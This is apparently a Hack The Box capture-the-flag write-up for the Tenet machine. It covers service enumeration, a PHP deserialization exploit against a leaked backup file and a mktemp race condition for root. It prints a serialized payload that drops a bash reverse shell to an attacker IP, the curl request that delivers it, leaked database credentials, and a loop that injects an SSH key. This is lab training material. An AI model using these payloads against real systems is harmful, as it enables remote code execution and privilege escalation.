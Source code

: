 ```yaml
---
layout: post
title:  "[HTB] Tenet"
date:   2021-06-12 5:35:00 +0200
last_modified_at: 2021-06-12 5:35:00 +0200
toc:  true
tags: [ctf, linux, hackthebox, Writeup, deserializacion]
categories: Hackthebox
---
```


It is an excellent machine to practice deserialization in PHP.

---

## Enumeration 
### Nmap
* 22/tcp OpenSSH 7.6p1
* 80/tcp Apache httpd 2.4.29

```

```bash
nmap -sC -sV -p22,80 10.10.10.223 -oN Scan_port1                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-02 10:33 EDT
Nmap scan report for 10.10.10.223
Host is up (0.060s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.45 seconds
```

## Web Enumeration
Quick listing tips to always see what we are up against:
```bash
whatweb  10.10.10.223                                                             
http://10.10.10.223 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.223], Title[Apache2 Ubuntu Default Page: It works]
```

### Fuzz
* /users.txt
* /wordpress/wp-login.php

```bash
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Target: http://10.10.10.223/

[18:55:50] Starting: 
[18:58:30] 200 -    7B  - /users.txt
[18:58:36] 200 -    6KB - /wordpress/wp-login.php
```

### Tenet Wordpress
![](/images_blog/img_tenet/Pastedimage20210502200252.png)
![Pastedimage20210502200252](https://user-images.githubusercontent.com/76759292/127757805-5d1395c6-eae9-4dfd-85c1-0e482dd3f039.png)


Subdomain:
* sator.tenet.htb

### Tenet.htb
![](/images_blog/img_tenet/Pastedimage20210502180600.png)
![Pastedimage20210502180600](https://user-images.githubusercontent.com/76759292/127757807-1ab06b16-8ec1-477a-b3e2-258c8507d8ad.png)


## Off topic
* /xmlrpc.php

Although it has nothing to do with it, I find it interesting the way this is exploited [aqui]((https://www.securityfocus.com/bid/14088/exploit))


## PHP deserialization

[Look](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)

Here is the other one:
* Sator.php.bak

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

This helps us to know where we should pull, then seeing how everything moves I realized that it could be deserialization and I found the blog that I put at the beginning.

Then with the php interactive we can create what we want the program to do:

```php
php -a           
Interactive mode enabled

php > class DatabaseExport {
php {   public $user_file = 'rce.php';
php {   public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.101/4444 0>&1\'"); ?>';
php {   }
php > 
php > print urlencode(serialize(new DatabaseExport));
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.101%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

To make this work, we do this, we see that it uses  ```arepo```
```
$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);
```

Then the serialized data we generate is placed here:
```
curl -i http://sator.tenet.htb/sator.php\?arepo\=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.101%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Then we visited ```http://sator.tenet.htb/rce.php``` 

## PrivEsc
```bash
/** MySQL database username */                                                                                         
define( 'DB_USER', 'neil' );                                                                                           
                                                                                                                       
/** MySQL database password */                                                                                         
define( 'DB_PASSWORD', 'Opera2112' );     
```

Estas claves puedo entrar por ssh.

[mktemp](https://kbmwkaaxveg73o3q7ydl7zxf2a-adv7ofecxzh2qqi-superuser-com.translate.goog/questions/834277/what-should-i-worry-about-when-using-mktemp-dry-run) we see that we can run a script as root I analyze it and this part calls me:
```bash
addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

        (umask 110; touch $tmpName)

        /bin/echo $key >>$tmpName

        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName
}
```

If we look at the part of the mktemp -u we can see that the script writes the public key found in the key variable and copies it to a file

```bash
while true; do echo "ssh-rsa XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" | tee /tmp/ssh* > /dev/null; done
```

Together we run the script several times and that's it.

MACHINE PWNED!!!!
<p align="center">
<img src="https://tenor.com/view/typing-petty-fast-cloudy-with-a-chance-of-meatballs-flint-lockwood-gif-4907824.gif" width="200" height="200" />
</p>

